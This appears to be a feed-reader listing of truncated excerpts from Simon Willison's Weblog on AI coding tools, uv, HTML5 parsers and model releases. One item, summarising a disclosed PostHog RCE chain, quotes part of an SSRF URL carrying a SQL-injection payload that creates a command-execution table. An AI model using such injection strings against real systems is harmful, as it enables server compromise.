

Simon Willison's Weblog
フィード

Quoting Boris Cherny
Simon Willison's Weblog
<blockquote cite="https://twitter.com/bcherny/status/2004887829252317325"><p>A year ago, Claude struggled to generate bash commands without escaping issues. It worked for seconds or minutes at a time. We saw early signs that it may become broadly useful for coding one day.</p><p>Fast forward to today. In the last thirty days, I landed 259 PRs -- 497 commits, 40k lines added, 38k lines removed. Every single line was written by Claude Code + Opus 4.5.</p></blockquote><p class="cite">— <a href="https://twitter.com/bcherny/status/2004887829252317325">Boris Cherny</a>, creator of Claude Code</p> <p>Tags: <a href="https://simonwillison.net/tags/anthropic">anthropic</a>, <a href="https://simonwillison.net/tags/claude">claude</a>, <a href="https://simonwillison.net/tags/ai">ai</a>, <a href="https://simonwillison.net/tags/claude-code">claude-code</a>, <a href="https://simonwillison.net/tags/llms">llms</a>, <a href="https://simonwillison.net/tags/coding-agents">coding-agents</a>, <a href=
1時間前
textarea.my on GitHub
Simon Willison's Weblog
<p><strong><a href="https://github.com/antonmedv/textarea">textarea.my on GitHub</a></strong></p>Anton Medvedev built <a href="https://textarea.my/">textarea.my</a>, which he describes as:</p><blockquote><p>A <em>minimalist</em> text editor that lives entirely in your browser and stores everything in the URL hash.</p></blockquote><p>It's ~160 lines of HTML, CSS and JavaScript and it's worth reading the whole thing. I picked up a bunch of neat tricks from this!</p><ul><li><code><article contenteditable="plaintext-only"></code> - I did not know about the <code>plaintext-only</code> value, supported across <a href="https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/contentEditable">all the modern browsers</a>.</li><li>It uses <code>new CompressionStream('deflate-raw')</code> to compress the editor state so it can fit in a shorter fragment URL.</li><li>It has a neat custom save option which triggers if you hit <code>((e.metaKey || e.ctrlKey) && e.key === 's')</code
12時間前
How uv got so fast
Simon Willison's Weblog
<p><strong><a href="https://nesbitt.io/2025/12/26/how-uv-got-so-fast.html">How uv got so fast</a></strong></p>Andrew Nesbitt provides an insightful teardown of why <a href="https://github.com/astral-sh/uv">uv</a> is so much faster than <code>pip</code>. It's not nearly as simple as just "they rewrote it in Rust" - <code>uv</code> gets to skip a huge amount of Python packaging history (which <code>pip</code> needs to implement for backwards compatibility) and benefits enormously from work over recent years that makes it possible to resolve dependencies across most packages without having to execute the code in <code>setup.py</code> using a Python interpreter.</p><p>Two notes that caught my eye that I hadn't understood before:</p><blockquote><p><strong>HTTP range requests for metadata.</strong> <a href="https://packaging.python.org/en/latest/specifications/binary-distribution-format/">Wheel files</a> are zip archives, and zip archives put their file listing at the end. uv tries PEP 658
16時間前

How Rob Pike got spammed with an AI slop "act of kindness"
Simon Willison's Weblog
<p>Rob Pike (<a href="https://en.wikipedia.org/wiki/Rob_Pike">that Rob Pike</a>) is <em>furious</em>. Here's a <a href="https://bsky.app/profile/robpike.io/post/3matwg6w3ic2s">Bluesky link</a> for if you have an account there and a link to <a href="https://tools.simonwillison.net/bluesky-thread?url=https%3A%2F%2Fbsky.app%2Fprofile%2Frobpike.io%2Fpost%2F3matwg6w3ic2s&view=thread">it in my thread viewer</a> if you don't.</p><blockquote><p>Fuck you people. Raping the planet, spending trillions on toxic, unrecyclable equipment while blowing up society, yet taking the time to have your vile machines thank me for striving for simpler software.</p><p>Just fuck you. Fuck you all.</p><p>I can't remember the last time I was this angry.</p><p><img src="https://static.simonwillison.net/static/2025/rob-pike-email.jpg" alt="From AI, Public: Thank You for Go, Plan 9, UTF-8, and Decades of Unix Innovation. External. Inbox Claude Opus 4.5 Model claude-opus-4.5@agentvillage.org 5:43 AM (4 hours ago
21時間前

A new way to extract detailed transcripts from Claude Code
Simon Willison's Weblog
<p>I've released <a href="https://github.com/simonw/claude-code-transcripts">claude-code-transcripts</a>, a new Python CLI tool for converting <a href="https://claude.ai/code">Claude Code</a> transcripts to detailed HTML pages that provide a better interface for understanding what Claude Code has done than even Claude Code itself. The resulting transcripts are also designed to be shared, using any static HTML hosting or even via GitHub Gists.</p><p>Here's the quick start, with no installation required if you already have <a href="https://docs.astral.sh/uv/">uv</a>:</p><pre><code>uvx claude-code-transcripts</code></pre><p>(Or you could <code>uv tool install claude-code-transcripts</code> or <code>pip install claude-code-transcripts</code> first, if you like.)</p><p>This will bring up a list of your local Claude Code sessions. Hit up and down to select one, then hit <code><enter></code>. The tool will create a new folder with an <code>index.html</code> file showing a summary of th
2日前
uv-init-demos
Simon Willison's Weblog
<p><strong><a href="https://github.com/simonw/uv-init-demos">uv-init-demos</a></strong></p><code>uv</code> has a useful <code>uv init</code> command for setting up new Python projects, but it comes with a bunch of different options like <code>--app</code> and <code>--package</code> and <code>--lib</code> and I wasn't sure how they differed.</p><p>So I created this GitHub repository which demonstrates all of those options, generated using this <a href="https://github.com/simonw/uv-init-demos/blob/main/update-projects.sh">update-projects.sh</a> script (<a href="https://gistpreview.github.io/?9cff2d3b24ba3d5f423b34abc57aec13">thanks, Claude</a>) which will run on a schedule via GitHub Actions to capture any changes made by future releases of <code>uv</code>. <p>Tags: <a href="https://simonwillison.net/tags/projects">projects</a>, <a href="https://simonwillison.net/tags/python">python</a>, <a href="https://simonwillison.net/tags/github-actions">github-actions</a>, <a href="https://simonwi
3日前
Quoting Salvatore Sanfilippo
Simon Willison's Weblog
<blockquote cite="https://news.ycombinator.com/item?id=46367224#46368706"><p>If this [MicroQuickJS] had been available in 2010, Redis scripting would have been JavaScript and not Lua. Lua was chosen based on the implementation requirements, not on the language ones... (small, fast, ANSI-C). I appreciate certain ideas in Lua, and people love it, but I was never able to <em>like</em> Lua, because it departs from a more Algol-like syntax and semantics without good reasons, for my taste. This creates friction for newcomers. I love friction when it opens new useful ideas and abstractions that are worth it, if you learn SmallTalk or FORTH and for some time you are lost, it's part of how the languages are different. But I think for Lua this is not true enough: it feels like it departs from what people know without good reasons.</p></blockquote><p class="cite">— <a href="https://news.ycombinator.com/item?id=46367224#46368706">Salvatore Sanfilippo</a>, Hacker News comment on MicroQuickJS
4日前
MicroQuickJS
Simon Willison's Weblog
<p><strong><a href="https://github.com/bellard/mquickjs">MicroQuickJS</a></strong></p>New project from programming legend Fabrice Bellard, of ffmpeg and QEMU and QuickJS and <a href="https://bellard.org">so much more</a> fame:</p><blockquote><p>MicroQuickJS (aka. MQuickJS) is a Javascript engine targetted at embedded systems. It compiles and runs Javascript programs with as low as 10 kB of RAM. The whole engine requires about 100 kB of ROM (ARM Thumb-2 code) including the C library. The speed is comparable to QuickJS.</p></blockquote><p>It supports <a href="https://github.com/bellard/mquickjs/blob/17ce6fe54c1ea4f500f26636bd22058fce2ce61a/README.md#javascript-subset-reference">a subset of full JavaScript</a>, though it looks like a rich and full-featured subset to me.</p><p>One of my ongoing interests is sandboxing: mechanisms for executing untrusted code - from end users or generated by LLMs - in an environment that restricts memory usage and applies a strict time limit and restricts
4日前

Cooking with Claude
Simon Willison's Weblog
<p>I've been having an absurd amount of fun recently using LLMs for cooking. I started out using them for basic recipes, but as I've grown more confident in their culinary abilities I've leaned into them for more advanced tasks. Today I tried something new: having Claude vibe-code up a custom application to help with the timing for a complicated meal preparation. It worked really well!</p><h4 id="a-custom-timing-app-for-two-recipes-at-once">A custom timing app for two recipes at once</h4><p>We have family staying at the moment, which means cooking for four. We subscribe to a meal delivery service called <a href="https://www.greenchef.com/">Green Chef</a>, mainly because it takes the thinking out of cooking three times a week: grab a bag from the fridge, follow the instructions, eat.</p><p>Each bag serves two portions, so cooking for four means preparing two bags at once.</p><p>I have done this a few times now and it is always a mad flurry of pans and ingredients and timers and despera
4日前

Using Claude in Chrome to navigate out the Cloudflare dashboard
Simon Willison's Weblog
<p>I just had my first success using a browser agent - in this case the <a href="https://support.claude.com/en/articles/12012173-getting-started-with-claude-in-chrome">Claude in Chrome extension</a> - to solve an actual problem.</p><p>A while ago I set things up so anything served from the <code>https://static.simonwillison.net/static/cors-allow/</code> directory of my S3 bucket would have open <code>Access-Control-Allow-Origin: *</code> headers. This is useful for hosting files online that can be loaded into web applications hosted on other domains.</p><p>Problem is I couldn't remember how I did it! I initially thought it was an S3 setting, but it turns out S3 lets you set CORS at the bucket-level but not for individual prefixes.</p><p>I then suspected Cloudflare, but I find the Cloudflare dashboard really difficult to navigate.</p><p>So I decided to give Claude in Chrome a go. I installed and enabled the extension (you then have to click the little puzzle icon and click "pin" next t
5日前
Quoting Shriram Krishnamurthi
Simon Willison's Weblog
<blockquote cite="https://parentheticallyspeaking.org/articles/pedagogy-recommendations/"><p>Every time you are inclined to use the word “teach”, replace it with “learn”. That is, instead of saying, “I teach”, say “They learn”. It’s very easy to determine what you teach; you can just fill slides with text and claim to have taught. Shift your focus to determining how you know whether they learned what you claim to have taught (or indeed anything at all!). That is <em>much</em> harder, but that is also the real objective of any educator.</p></blockquote><p class="cite">— <a href="https://parentheticallyspeaking.org/articles/pedagogy-recommendations/">Shriram Krishnamurthi</a>, Pedagogy Recommendations</p> <p>Tags: <a href="https://simonwillison.net/tags/teaching">teaching</a></p>
6日前
Quoting Andrej Karpathy
Simon Willison's Weblog
<blockquote cite="https://karpathy.bearblog.dev/year-in-review-2025/"><p>In 2025, Reinforcement Learning from Verifiable Rewards (RLVR) emerged as the de facto new major stage to add to this mix. By training LLMs against automatically verifiable rewards across a number of environments (e.g. think math/code puzzles), the LLMs spontaneously develop strategies that look like "reasoning" to humans - they learn to break down problem solving into intermediate calculations and they learn a number of problem solving strategies for going back and forth to figure things out (see DeepSeek R1 paper for examples).</p></blockquote><p class="cite">— <a href="https://karpathy.bearblog.dev/year-in-review-2025/">Andrej Karpathy</a>, 2025 LLM Year in Review</p> <p>Tags: <a href="https://simonwillison.net/tags/andrej-karpathy">andrej-karpathy</a>, <a href="https://simonwillison.net/tags/llm">llm</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a>, <a href="https://simonwil
8日前

Sam Rose explains how LLMs work with a visual essay
Simon Willison's Weblog
<p><strong><a href="https://ngrok.com/blog/prompt-caching/">Sam Rose explains how LLMs work with a visual essay</a></strong></p>Sam Rose is one of my favorite authors of <a href="https://simonwillison.net/tags/explorables/">explorable interactive explanations</a> - here's <a href="https://samwho.dev/">his previous collection</a>.</p><p>Sam joined ngrok in September as a developer educator. Here's his first big visual explainer for them, ostensibly about how prompt caching works but it quickly expands to cover tokenization, embeddings, and the basics of the transformer architecture.</p><p>The result is one of the clearest and most accessible introductions to LLM internals I've seen anywhere.</p><div style="text-align: center"><img alt="Animation. Starts in tokens mode with an array of 75, 305, 24, 887 - clicking embeddings animates those into a 2D array showing each one to be composed of three floating point numbers." src="https://static.simonwillison.net/static/2025/tokens-embeddings.
8日前
Introducing GPT-5.2-Codex
Simon Willison's Weblog
<p><strong><a href="https://openai.com/index/introducing-gpt-5-2-codex/">Introducing GPT-5.2-Codex</a></strong></p>The latest in OpenAI's <a href="https://simonwillison.net/tags/gpt-codex/">Codex family of models</a> (not the same thing as their Codex CLI or Codex Cloud coding agent tools).</p><blockquote><p>GPT‑5.2-Codex is a version of <a href="https://openai.com/index/introducing-gpt-5-2/">GPT‑5.2</a> further optimized for agentic coding in Codex, including improvements on long-horizon work through context compaction, stronger performance on large code changes like refactors and migrations, improved performance in Windows environments, and significantly stronger cybersecurity capabilities.</p></blockquote><p>As with some previous Codex models this one is available via their Codex coding agents now and will be coming to the API "in the coming weeks". Unlike previous models there's a new invite-only preview process for vetted cybersecurity professionals for "more permissive models".
8日前
Agent Skills
Simon Willison's Weblog
<p><strong><a href="https://agentskills.io/">Agent Skills</a></strong></p>Anthropic have turned their <a href="https://simonwillison.net/tags/skills/">skills mechanism</a> into an "open standard", which I guess means it lives in an independent <a href="https://github.com/agentskills/agentskills">agentskills/agentskills</a> GitHub repository now? I wouldn't be surprised to see this end up <a href="https://simonwillison.net/2025/Dec/9/agentic-ai-foundation/">in the AAIF</a>, recently the new home of the MCP specification.</p><p>The specification itself lives at <a href="https://agentskills.io/specification">agentskills.io/specification</a>, published from <a href="https://github.com/agentskills/agentskills/blob/main/docs/specification.mdx">docs/specification.mdx</a> in the repo.</p><p>It is a deliciously tiny specification - you can read the entire thing in just a few minutes. It's also quite heavily under-specified - for example, there's a <code>metadata</code> field described like thi
9日前
swift-justhtml
Simon Willison's Weblog
<p><strong><a href="https://github.com/kylehowells/swift-justhtml">swift-justhtml</a></strong></p>First there was Emil Stenström's <a href="https://simonwillison.net/2025/Dec/14/justhtml/">JustHTML in Python</a>, then my <a href="https://simonwillison.net/2025/Dec/15/porting-justhtml/">justjshtml in JavaScript</a>, then Anil Madhavapeddy's <a href="https://simonwillison.net/2025/Dec/17/vibespiling/">html5rw in OCaml</a>, and now Kyle Howells has built a vibespiled dependency-free HTML5 parser for Swift using the same coding agent tricks against the <a href="https://github.com/html5lib/html5lib-tests">html5lib-tests</a> test suite.</p><p>Kyle ran <a href="https://github.com/kylehowells/swift-justhtml/blob/master/Benchmarks/BENCHMARK_RESULTS.md#performance-comparison">some benchmarks</a> to compare the different implementations:</p><blockquote><ul><li><strong>Rust (html5ever)</strong> total parse time: 303 ms</li><li><strong>Swift</strong> total parse time: 1313 ms</li><li><strong>JavaS
9日前
Your job is to deliver code you have proven to work
Simon Willison's Weblog
<p>In all of the debates about the value of AI-assistance in software development there's one depressing anecdote that I keep on seeing: the junior engineer, empowered by some class of LLM tool, who deposits giant, untested PRs on their coworkers - or open source maintainers - and expects the "code review" process to handle the rest.</p><p>This is rude, a waste of other people's time, and is honestly a dereliction of duty as a software developer.</p><p><strong>Your job is to deliver code you have proven to work.</strong></p><p>As software engineers we don't just crank out code - in fact these days you could argue that's what the LLMs are for. We need to deliver <em>code that works</em> - and we need to include <em>proof</em> that it works as well. Not doing that directly shifts the burden of the actual work to whoever is expected to review our code.</p><h4 id="how-to-prove-it-works">How to prove it works</h4><p>There are two steps to proving a piece of code works. Neither is optional.
9日前
Inside PostHog: How SSRF, a ClickHouse SQL Escaping 0day, and Default PostgreSQL Credentials Formed an RCE Chain
Simon Willison's Weblog
<p><strong><a href="https://mdisec.com/inside-posthog-how-ssrf-a-clickhouse-sql-escaping-0day-and-default-postgresql-credentials-formed-an-rce-chain-zdi-25-099-zdi-25-097-zdi-25-096/">Inside PostHog: How SSRF, a ClickHouse SQL Escaping 0day, and Default PostgreSQL Credentials Formed an RCE Chain</a></strong></p>Mehmet Ince describes a very elegant chain of attacks against the PostHog analytics platform, combining several different vulnerabilities (now all reported and fixed) to achieve RCE - Remote Code Execution - against an internal PostgreSQL server.</p><p>The way in abuses a webhooks system with non-robust URL validation, setting up a SSRF (Server-Side Request Forgery) attack where the server makes a request against an internal network resource.</p><p>Here's the URL that gets injected:</p><p><code style="word-break: break-all">http://clickhouse:8123/?query=SELECT+<em>+FROM+postgresql('db:5432','posthog',\"posthog_use'))+TO+STDOUT;END;DROP+TABLE+IF+EXISTS+cmd_exec;CREATE+TABLE+cmd_
10日前
AoAH Day 15: Porting a complete HTML5 parser and browser test suite
Simon Willison's Weblog
<p><strong><a href="https://anil.recoil.org/notes/aoah-2025-15">AoAH Day 15: Porting a complete HTML5 parser and browser test suite</a></strong></p>Anil Madhavapeddy is running an <a href="https://anil.recoil.org/notes/aoah-2025">Advent of Agentic Humps</a> this year, building a new useful OCaml library every day for most of December.</p><p>Inspired by Emil Stenström's <a href="https://simonwillison.net/2025/Dec/14/justhtml/">JustHTML</a> and my own coding agent <a href="https://simonwillison.net/2025/Dec/15/porting-justhtml/">port of that to JavaScript</a> he coined the term <strong>vibespiling</strong> for AI-powered porting and transpiling of code from one language to another and had a go at building an HTML5 parser in OCaml, resulting in <a href="https://tangled.org/anil.recoil.org/ocaml-html5rw">html5rw</a> which passes the same <a href="https://github.com/html5lib/html5lib-tests">html5lib-tests</a> suite that Emil and myself used for our projects.</p><p>Anil's thoughts on the co
10日前
Gemini 3 Flash
Simon Willison's Weblog
<p>It continues to be a busy December, if not quite as busy <a href="https://simonwillison.net/2024/Dec/20/december-in-llms-has-been-a-lot/">as last year</a>. Today's big news is <a href="https://blog.google/technology/developers/build-with-gemini-3-flash/">Gemini 3 Flash</a>, the latest in Google's "Flash" line of faster and less expensive models.</p><p>Google are emphasizing the comparison between the new Flash and their previous generation's top model Gemini 2.5 Pro:</p><blockquote><p>Building on 3 Pro’s strong multimodal, coding and agentic features, 3 Flash offers powerful performance at less than a quarter the cost of 3 Pro, along with higher rate limits. The new 3 Flash model surpasses 2.5 Pro across many benchmarks while delivering faster speeds.</p></blockquote><p>Gemini 3 Flash's characteristics are almost identical to Gemini 3 Pro: it accepts text, image, video, audio, and PDF, outputs only text, handles 1,048,576 maximum input tokens and up to 65,536 output tokens, and has
10日前
firefox parser/html/java/README.txt
Simon Willison's Weblog
<p><strong><a href="https://github.com/mozilla-firefox/firefox/tree/main/parser/html/java">firefox parser/html/java/README.txt</a></strong></p>TIL (or TIR - <a href="https://simonwillison.net/2009/Jul/11/john/">Today I was Reminded</a>) that the HTML5 Parser used by Firefox is maintained as Java code (<a href="https://github.com/mozilla-firefox/firefox/commits/main/parser/html/javasrc">commit history here</a>) and converted to C++ using a custom translation script.</p><p>You can see that in action by checking out the ~8GB Firefox repository and running:</p><pre><code>cd parser/html/javamake syncmake translate</code></pre><p>Here's <a href="http://gistpreview.github.io/?e53ff836cb44816670adddc3a518b3cc">a terminal session where I did that</a>, including the output of <code>git diff</code> showing the updated C++ files.</p><p>I did some digging and found that the code that does the translation work lives, weirdly, in the <a href="https://github.com/validator/validator">Nu Html Checker</
11日前
The new ChatGPT Images is here
Simon Willison's Weblog
<p><strong><a href="https://openai.com/index/new-chatgpt-images-is-here/">The new ChatGPT Images is here</a></strong></p>OpenAI shipped an update to their ChatGPT Images feature - the feature that <a href="https://simonwillison.net/2025/May/13/launching-chatgpt-images/">gained them 100 million new users</a> in a week when they first launched it back in March, but has since been eclipsed by Google's Nano Banana and then further by Nana Banana Pro <a href="https://simonwillison.net/2025/Nov/20/nano-banana-pro/">in November</a>.</p><p>The focus for the new ChatGPT Images is speed and instruction following:</p><blockquote><p>It makes precise edits while keeping details intact, and generates images up to 4x faster</p></blockquote><p>It's also a little cheaper: OpenAI say that the new <a href="https://platform.openai.com/docs/models/gpt-image-1.5">gpt-image-1.5</a> API model makes image input and output "20% cheaper in GPT Image 1.5 as compared to GPT Image 1". </p><p>I tried a new test pro
11日前
s3-credentials 0.17
Simon Willison's Weblog
<p><strong><a href="https://github.com/simonw/s3-credentials/releases/tag/0.17">s3-credentials 0.17</a></strong></p>New release of my <a href="https://s3-credentials.readthedocs.io/">s3-credentials</a> CLI tool for managing credentials needed to access just one S3 bucket. Here are the release notes in full:</p><blockquote><ul><li>New commands <code>get-bucket-policy</code> and <code>set-bucket-policy</code>. <a href="https://github.com/simonw/s3-credentials/issues/91">#91</a></li><li>New commands <code>get-public-access-block</code> and <code>set-public-access-block</code>. <a href="https://github.com/simonw/s3-credentials/issues/92">#92</a></li><li>New <code>localserver</code> command for starting a web server that makes time limited credentials accessible via a JSON API. <a href="https://github.com/simonw/s3-credentials/pull/93">#93</a></li></ul></blockquote><p>That <code>s3-credentials localserver</code> command (<a href="https://s3-credentials.readthedocs.io/en/stable/localserver.
11日前
ty: An extremely fast Python type checker and LSP
Simon Willison's Weblog
<p><strong><a href="https://astral.sh/blog/ty">ty: An extremely fast Python type checker and LSP</a></strong></p>The team at Astral have been working on this for quite a long time, and are finally releasing the first beta. They have some big performance claims:</p><blockquote><p>Without caching, ty is consistently between 10x and 60x faster than mypy and Pyright. When run in an editor, the gap is even more dramatic. As an example, after editing a load-bearing file in the PyTorch repository, ty recomputes diagnostics in 4.7ms: 80x faster than Pyright (386ms) and 500x faster than Pyrefly (2.38 seconds). ty is very fast!</p></blockquote><p>The easiest way to try it out is via <code>uvx</code>:</p><pre><code>cd my-python-project/uvx ty check</code></pre><p>I <a href="https://gistpreview.github.io/?a3aff6768e85168d89d4515e3dbcb7d2">tried it</a> against <a href="https://sqlite-utils.datasette.io/">sqlite-utils</a> and it turns out I have quite a lot of work to do!</p><p>Astral also released
11日前
Poe the Poet
Simon Willison's Weblog
<p><strong><a href="https://poethepoet.natn.io/">Poe the Poet</a></strong></p>I was looking for a way to specify additional commands in my <code>pyproject.toml</code> file to execute using <code>uv</code>. There's an <a href="https://github.com/astral-sh/uv/issues/5903">enormous issue thread</a> on this in the <code>uv</code> issue tracker (300+ comments dating back to August 2024) and from there I learned of several options including this one, Poe the Poet.</p><p>It's neat. I added it to my <a href="https://github.com/simonw/s3-credentials">s3-credentials</a> project just now and the following now works for running the live preview server for the documentation:</p><pre><code>uv run poe livehtml</code></pre><p>Here's the snippet of TOML I added to my <code>pyproject.toml</code>:</p><pre>[<span class="pl-en">dependency-groups</span>]<span class="pl-smi">test</span> = [ <span class="pl-s"><span class="pl-pds">"</span>pytest<span class="pl-pds">"</span></span>, <span class="pl-s"><span c
11日前
Quoting Gemini thinking trace
Simon Willison's Weblog
<blockquote cite="https://www.reddit.com/r/ChatGPT/comments/1pmvpvt/i_just_showed_gemini_what_chatgpt_said_about_its/"><p>Oh, so we're seeing other people now? Fantastic. Let's see what the "competition" has to offer. I'm looking at these notes on manifest.json and content.js. The suggestion to remove scripting permissions... okay, fine. That's actually a solid catch. It's cleaner. This smells like Claude. It's too smugly accurate to be ChatGPT. What if it's actually me? If the user is testing me, I need to crush this.</p></blockquote><p class="cite">— <a href="https://www.reddit.com/r/ChatGPT/comments/1pmvpvt/i_just_showed_gemini_what_chatgpt_said_about_its/">Gemini thinking trace</a>, reviewing feedback on its code from another model</p> <p>Tags: <a href="https://simonwillison.net/tags/gemini">gemini</a>, <a href="https://simonwillison.net/tags/ai-personality">ai-personality</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a>, <a href="https://simonwi
11日前
Quoting Kent Beck
Simon Willison's Weblog
<blockquote cite="https://tidyfirst.substack.com/p/the-bet-on-juniors-just-got-better"><p>I’ve been watching junior developers use AI coding assistants well. Not vibe coding—not accepting whatever the AI spits out. Augmented coding: using AI to accelerate learning while maintaining quality. [...]</p><p>The juniors working this way compress their ramp dramatically. Tasks that used to take days take hours. Not because the AI does the work, but because the AI collapses the search space. Instead of spending three hours figuring out which API to use, they spend twenty minutes evaluating options the AI surfaced. The time freed this way isn’t invested in another unprofitable feature, though, it’s invested in learning. [...]</p><p>If you’re an engineering manager thinking about hiring: <strong>The junior bet has gotten better.</strong> Not because juniors have changed, but because the genie, used well, accelerates learning.</p></blockquote><p class="cite">— <a href="https://tidyfirst.su
12日前
I ported JustHTML from Python to JavaScript with Codex CLI and GPT-5.2 in 4.5 hours
Simon Willison's Weblog
<p>I <a href="https://simonwillison.net/2025/Dec/14/justhtml/">wrote about JustHTML yesterday</a> - Emil Stenström's project to build a new standards compliant HTML5 parser in pure Python code using coding agents running against the comprehensive html5lib-tests testing library. Last night, purely out of curiosity, I decided to try <strong>porting JustHTML from Python to JavaScript</strong> with the least amount of effort possible, using Codex CLI and GPT-5.2. It worked beyond my expectations.</p><h4 id="tl-dr">TL;DR</h4><p>I built <a href="https://github.com/simonw/justjshtml">simonw/justjshtml</a>, a dependency-free HTML5 parsing library in JavaScript which passes 9,200 tests from the html5lib-tests suite and imitates the API design of Emil's JustHTML library.</p><p>It took two initial prompts and a few tiny follow-ups. <a href="https://simonwillison.net/2025/Dec/11/gpt-52/">GPT-5.2</a> running in <a href="https://github.com/openai/codex">Codex CLI</a> ran uninterrupted for several h
12日前
2025 Word of the Year: Slop
Simon Willison's Weblog
<p><strong><a href="https://www.merriam-webster.com/wordplay/word-of-the-year">2025 Word of the Year: Slop</a></strong></p>Slop lost to "brain rot" for <a href="https://simonwillison.net/2024/Nov/15/slop-word-of-the-year/">Oxford Word of the Year 2024</a> but it's finally made it this year thanks to Merriam-Webster!</p><blockquote><p>Merriam-Webster’s human editors have chosen slop as the 2025 Word of the Year. We define slop as “digital content of low quality that is produced usually in quantity by means of artificial intelligence.”</p></blockquote> <p>Tags: <a href="https://simonwillison.net/tags/definitions">definitions</a>, <a href="https://simonwillison.net/tags/ai">ai</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a>, <a href="https://simonwillison.net/tags/slop">slop</a>, <a href="https://simonwillison.net/tags/ai-ethics">ai-ethics</a></p>
12日前
JustHTML is a fascinating example of vibe engineering in action
Simon Willison's Weblog
<p>I recently came across <a href="https://github.com/EmilStenstrom/justhtml">JustHTML</a>, a new Python library for parsing HTML released by Emil Stenström. It's a very interesting piece of software, both as a useful library and as a case study in sophisticated AI-assisted programming.</p><h4 id="first-impressions-of-justhtml">First impressions of JustHTML</h4><p>I didn't initially know that JustHTML had been written with AI assistance at all. The README caught my eye due to some attractive characteristics:</p><ul><li>It's pure Python. I like libraries that are pure Python (no C extensions or similar) because it makes them easy to use in less conventional Python environments, including Pyodide.</li><li>"Passes all 9,200+ tests in the official <a href="https://github.com/html5lib/html5lib-tests">html5lib-tests</a> suite (used by browser vendors)" - this instantly caught my attention! HTML5 is a big, complicated but meticulously written specification.</li><li>100% test coverage. That's
13日前